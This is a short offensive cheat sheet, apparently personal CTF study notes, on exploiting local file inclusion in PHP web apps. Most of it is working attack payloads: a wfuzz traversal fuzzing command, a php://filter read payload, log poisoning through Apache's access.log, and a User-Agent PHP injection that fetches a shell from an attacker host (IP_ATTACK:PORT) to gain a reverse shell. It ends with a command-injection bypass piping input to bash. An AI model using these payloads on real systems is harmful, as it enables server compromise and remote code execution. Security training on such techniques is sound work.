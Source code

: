 ```yaml
---
title: LFI 🎃
---
```


- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

---

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```

---

- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index
```

- Check out the &ext variable and put it empty because it won't get the file extension

---

- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```

---

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

---

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```
